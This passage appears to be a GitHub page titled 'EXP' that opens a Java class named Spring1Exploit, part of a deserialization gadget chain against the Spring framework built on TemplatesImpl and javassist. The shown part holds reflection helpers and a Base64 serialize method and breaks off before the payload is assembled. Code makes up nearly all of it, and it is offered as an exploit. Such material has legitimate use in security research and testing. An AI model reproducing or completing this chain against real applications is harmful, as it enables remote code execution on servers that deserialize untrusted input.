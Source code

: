 <div align=center><img src="./images/2.png"></div>

# EXP
```java
package org.h3rmesk1t.Spring1;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 3:47 pm
 */
public class Spring1Exploit {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
```